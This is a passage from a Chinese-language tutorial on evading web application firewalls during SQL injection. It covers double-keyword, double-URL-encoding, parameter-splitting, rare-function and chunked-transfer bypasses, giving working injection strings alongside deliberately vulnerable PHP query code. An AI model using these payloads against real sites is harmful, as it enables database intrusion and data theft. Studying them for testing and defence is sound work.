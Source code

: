 ## 0x18 双关键字绕过
有些程序会对单词 union、 select 进行转空 但是只会转一次这样会留下安全隐患。  
双关键字绕过（若删除掉第一个匹配的 union 就能绕过）  
id=-1'UNIunionONSeLselectECT1,2,3--+  
到数据库里执行会变成 id=-1'UNION SeLECT1,2,3--+ 从而绕过注入拦截。

## 0x19 二次编码绕过
有些程序会解析二次编码，造成 SQL 注入，因为 url 两次编码过后，waf 是不会拦截的。  
-1 union select 1,2,3,4#  
第一次转码：  
%2d%31%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%23  
第二次转码：  
%25%32%64%25%33%31%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%33%31%25%32%63%25%33%32%25%32%63%25%33%33%25%32%63%25%33%34%25%32%33   
代码分析：
```php
$id=isset($_GET['id'])?url_decode(filterstr($_GET['id'])):1;
$sql="select * from users where id='$id'";
```
首先要知道，一般情况下Web浏览器提交的数据，PHP会自动把其解码回来，这是中间件的特性，例如admin%3d 会解码为 admin=，此时为一次解码。  
然后我们分析代码，一次解码后gpc转义特殊字符，然后代码又进行了二次解码，这就导致了二次编码注入。  
总结一下，就是url_decode函数和PHP自身处理编码时配合失误导致的。

## 0x20 多参数拆分绕过
当一条sql语句中有多个参数时，可以将注入语句分割插入，例如get请求  
a=[input1]&b=[input2] 可以将参数 a 和 b 拼接在 SQL 语句中。  
在程序代码中看到两个可控的参数，但是使用 union select 会被 waf 拦截。  
```php
$id=isset($_GET['id'])?$_GET['id']:1;
$username=isset($_GET['username'])?$_GET['username']:'admin';
$sql="select * from users where id = '$id' and username='$username'";
```
使用参数拆分请求绕过waf拦截：  
```sql
'-1'union/*&username=*/select 1,user(),3,4--+
```
上面的语句中，会把 -1'union/\*当作第一个参数，id的参数。把\*/select 1,user(),3,4--+ 当做第二个参数，即username的参数。所以运行的sql语句如下所示：
```sql
select * from users where id ='-1'union/*&username=*/select 1,user(),3,4--+
```
当URL中两个参数可控时，就可以把sql注入关键字分解到两个参数中，利用组合注入语句突破waf拦截。

## 0x21 使用生僻函数绕过
使用生僻函数替代常见的函数，例如在报错注入中使用 polygon()函数替换常用的 updatexml()函数。  
select polygon((select * from (select * from (select @@version) f) x));

## 0x22 分块传输绕过
要理解分块传输绕过，首先要知道chunked编码。  
### 什么是chunked编码？
分块传输编码（chunked transfer encoding）是只在HTTP1.1版本中提供的一种数据传输机制。  
以往HTTP的响应数据是一起发送的，并会在响应头的 content length字段 中标明数据包长度，以便客户端知道响应消息的长度。  
传统的 Content-length 解决方案：计算实体长度，并通过头部告诉对方。浏览器可以通过 Content-Length的长度信息，判断出响应实体已结束。  
Content-length 面临的问题：由于 Content-Length 字段必须真实反映实体长度，但是对于动态生成的内容来说，在内容创建完之前，长度是不可知的。这时候要想准确获取长度，只能开一个足够大的 buffer，等内容全部生成好再计算。这样做一方面需要更大的内存开销，另一方面也会让客户端等更久。  
我们需要一个新的机制：不依赖头部的长度信息，也能知道实体的边界——分块编码（Transfer-Encoding:chunked）。  
对于动态生成的应答内容来说，内容在未生成完成前总长度是不可知的。因此需要先缓存生成的内容，再计算总长度填充到 Content-Length，再发送整个数据内容。这样显得不太灵活，而使用分块编码则能得到改观。  
分块传输编码允许服务器在最后发送消息头字段。例如在头中添加散列签名。对于压缩传输传输而言，可以一边压缩一边传输。
